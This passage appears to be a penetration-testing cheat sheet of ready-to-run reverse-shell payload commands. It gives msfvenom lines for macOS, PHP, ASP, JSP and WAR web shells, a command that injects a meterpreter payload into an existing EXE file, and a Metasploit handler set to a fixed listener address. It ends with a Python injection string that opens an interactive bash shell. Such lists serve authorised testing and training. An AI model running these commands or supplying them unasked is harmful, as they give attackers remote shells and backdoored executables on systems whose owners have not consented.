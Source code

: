 ## Mac
- `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
    
## PHP 
- `msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php`

> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
    
## ASP 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`    

## JSP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
    
## WAR
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
    
## Inject payload into an existing exe file
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>` 

## dep bypass payload
- `windows/meterpreter/reverse_nonx_tcp`

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 

# misc
## python injected shell
- `__builtins__.__import__('os').system('/bin/bash -i')`
